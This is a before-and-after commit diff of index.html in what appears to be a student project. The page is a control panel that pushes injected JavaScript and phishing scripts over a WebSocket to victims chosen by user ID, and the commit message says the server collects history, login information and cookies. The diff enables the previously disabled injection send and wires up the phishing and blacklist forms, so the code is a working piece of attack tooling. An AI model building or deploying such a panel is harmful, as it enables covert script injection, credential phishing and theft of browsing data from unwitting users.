

Before and after one commit to jiaster/331ProjectnickName123server, a website: page index.html in a window 1280 px wide. Shown: the part 143-785 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
ADDED: phishing, javascript
History/login info/cookies contingent on server. Expects one JSON per ID.

```diff
--- a/index.html
+++ b/index.html
@@ -90,11 +90,10 @@
 
 function js(){
     var id = document.getElementById("JS_ID").value;
-    var script = document.getElementById("JS_SCRIPT").value;
+    var script = document.getElementById("JS_Script").value;
     var url = document.getElementById("JS_URL").value;
-    alert(url);
-    //var jsonPackage = {id: id, type:"sendJavascript", script:script, domain:url};
-    //ws.send(JSON.stringify(jsonPackage));
+    var jsonPackage = {id: id, type:"sendJavascript", script:script, domain:url};
+    ws.send(JSON.stringify(jsonPackage));
 }
 
 function phish(){
@@ -171,6 +170,7 @@
 }
 
 function blackList(){
+    var URL = document.getElementById('blacklistEntry').value;
     var jsonPackage = {id: 0, type:'list', addString: URL};
     ws.send(JSON.stringify(jsonPackage));
 }
@@ -340,32 +340,35 @@
     <br>
 
     <!-- Adding Blacklisted Site -->
-    <h4>Add Site to Blacklist Here</h4>
-    <input type="text" class="form-control blacklist" placeholder="URL">
-    <button class="btn btn-primary" type="button" onclick="blackList()">Add Site</button>
+    <h4>Add site to blacklist</h4>
+    <br>
+    <form onsubmit="blacklist()">
+        <input type = "text" id="blacklistEntry" placeholder="URL"><br>
+        <input type = "submit" class="btn btn-primary">
+    </form>
 
     <br><br>
 
     <!-- Add Phishing -->
-    <form name="phishingForm" onsubmit "return phish()">
+    <form name="phishingForm" onsubmit="phish()">
         <h4>Add phishing script:</h4>
         <br>
-        <input type = "text" name = "Phishing_ID" placeholder = "User ID"><br>
+        <input type = "text" id = "Phishing_ID" placeholder = "User ID"><br>
         <!-- <input type = "text" name = "Phishing_Script" placeholder = "Script"><br> -->
-        <input type = "text" name = "Phishing_URL" placeholder = "URL"><br>
-        <input type = "submit" name = "Submit_Phishing_Script" class="btn btn-primary">
+        <input type = "text" id = "Phishing_URL" placeholder = "URL"><br>
+        <input type = "submit" id = "Submit_Phishing_Script" class="btn btn-primary">
     </form>
 
     <br>
 
     <!-- Add Javascript -->
-    <form name="jsForm" onsubmit "return js()">
+    <form name="jsForm" onsubmit="js()">
         <h4>Add javascript execution script:</h4>
         <br>
-        <input type = "text" name = "JS_ID" placeholder = "User ID"><br>
-        <input type = "text" name = "JS_Script" placeholder = "Script"><br>
-        <input type = "text" name = "JS_URL" placeholder = "URL"><br>
-        <input type = "submit" name = "Submit_JS_Script" class="btn btn-primary">
+        <input type = "text" id = "JS_ID" placeholder = "User ID"><br>
+        <input type = "text" id = "JS_Script" placeholder = "Script"><br>
+        <input type = "text" id = "JS_URL" placeholder = "URL"><br>
+        <input type = "submit" id = "Submit_JS_Script" class="btn btn-primary">
     </form>
 
 	</div>
```
